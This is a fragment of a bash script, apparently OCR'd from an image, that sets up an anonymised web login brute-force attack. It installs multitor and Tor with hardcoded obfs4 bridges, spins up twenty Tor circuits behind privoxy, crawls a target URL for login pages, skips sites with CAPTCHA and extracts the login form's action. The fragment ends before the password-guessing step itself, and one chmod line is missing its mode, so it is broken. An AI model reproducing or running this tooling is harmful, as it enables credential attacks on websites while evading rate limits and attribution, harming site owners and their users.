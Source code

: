 ```bash
fi

# Install multitor repo
if [ ! -d "/usr/share/multitor" ]; then
    git clone https://github.com/trimstray/multitor /usr/share/multitor
    chmod +x /usr/share/multitor/*
    cd /usr/share/multitor && sudo ./setup.sh install
    sudo chmod 700 /var/lib/multitor
    sudo chmod /usr/local/bin/multitor
    sudo chown debian-tor:debian-tor /var/lib/multitor
    color_print GREEN "[*] Successfully Installed multitor"
fi

# Ensure Tor service is running
if ! systemctl is-active --quiet tor; then
    tee -a /etc/tor/torrc > /dev/null <<'EOF'
UseBridges 1
ClientTransportPlugin obfs4 exec /usr/bin/obfs4proxy

Bridge obfs4 185.177.207.108:12346 90F67B8B09B66CF21E3FE73135F90FEAA4637B9B cert=p9L6+25s8bnfkye1ZxFeAE4mAGY7DH4Gaj7dxngIIzP9BtqrHHwZXdjMK0RVIQ34C7aqZw iat-mode=2
Bridge obfs4 66.179.241.33:4443 08BB8323DBA94BC5CC92F3F29D055AB6DC154682 cert=ffMu7MGljgKTcpZi0K0n70LBnXEnRl+4aWJ4t2SuLbpQ50kvYz/UkZEodii8lQzVxUqzJA iat-mode=0
EOF
    systemctl start tor@default
    sleep 60
    proxychains curl -sS https://check.torproject.org | grep -i "Congratulations\|not using tor"
fi

# Start multitor
if command -v multitor &>/dev/null; then
    multitor -k &>/dev/null
fi

sudo multitor --init 20 --user debian-tor --socks-port 9000 --control-port 9900 --proxy privoxy

# Find Login Page
LOGIN=$(katana -u "$URL" -depth 3 -silent | \
grep -iE "/(login|signin|sign-in|auth|user/login|admin/login|my-account|account|wp-login\.php)(/)?$" | \
grep -viE "lost-password|reset|forgot|register|signup|signout|logout|\.(js|css|jpg|png|gif|svg|ico)$" | \
sed 's:[/?]*$::' | sed 's:$:/:')

if [ -z "$LOGIN" ]; then
    color_print RED "[!] No login page found. Exiting."
    exit 1
fi

HTML=$(curl -s "$LOGIN")
FORM=$(echo "$HTML" | sed -n '/<form/,/<\/form>/p' | head -n 100)

# CAPTCHA check
if echo "$HTML" | grep -qiE "g-recaptcha|recaptcha|h-captcha|data-sitekey|captcha|grecaptcha.execute|hcaptcha.execute"; then
    color_print RED "[!] CAPTCHA detected. Brute-force aborted."
    exit 1
fi

# Extract Form Action & Method
ACTION=$(echo "$FORM" | grep -oEi 'action="[^"]*"' | head -1 | cut -d'"' -f2)
[ -z "$ACTION" ] && ACTION="$LOGIN"

```